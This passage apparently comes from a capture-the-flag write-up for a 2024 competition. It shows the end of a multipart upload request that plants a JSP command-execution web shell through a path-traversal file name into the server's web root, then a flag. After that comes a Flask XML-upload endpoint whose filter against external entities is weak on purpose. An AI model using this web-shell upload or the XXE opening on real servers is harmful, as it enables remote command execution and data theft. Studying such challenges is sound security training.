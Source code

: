 ```
	{
		out.println(disr); 
		disr = br.readLine(); 
	}
}
%>
</pre>
        </body>

        </html>
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="uploadFileName";

../webapps/ROOT/cmd.jsp
------WebKitFormBoundarydNmhuHKBYPqVrS4m--
```


## Flag
cce2024{3a9d8c789f493f9c66d2f82f8208d9dcc8a1cc5a47ef222e71dd4da6fe05f8d23397f85403779479627b675d6b6f434d9bcc}           
            
<a id="internal-inspection"></a>                

# internal inspection     
     
```python
@app.route('/download', methods=['POST'])
def download():
    xml_file = request.files['file']
    xml_data = xml_file.read()
    xml_data = xml_data.decode('UTF-8')
    xml_data = xml_data.replace("SYSTEM", "system")
    xml_data = xml_data.encode('UTF-8')
    
    parser = etree.XMLParser(encoding='UTF-8')
    try:
        root = etree.fromstring(xml_data, parser=parser)
    except:
        root = etree.fromstring("<name>fail</name>", parser=parser)
    
    data = []
    try:
        for member in root.findall('member'):
            name = member.find('name').text
            address = member.find('address').text
            company = member.find('company').text
            job = member.find('job').text
            email = member.find('email').text
            username = member.find('username').text
            data.append([name, address, company, job, email, username])
        
        df = pd.DataFrame(data, columns=['Name', 'Address', 'Company', 'Job', 'Email', 'Username'])
        
        output = io.BytesIO()
        df.to_excel(output, index=False, engine='openpyxl')
        output.seek(0)
    except:
        output = str()
    
    return send_file(output, as_attachment=True, mimetype='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet', download_name='members.xlsx')
```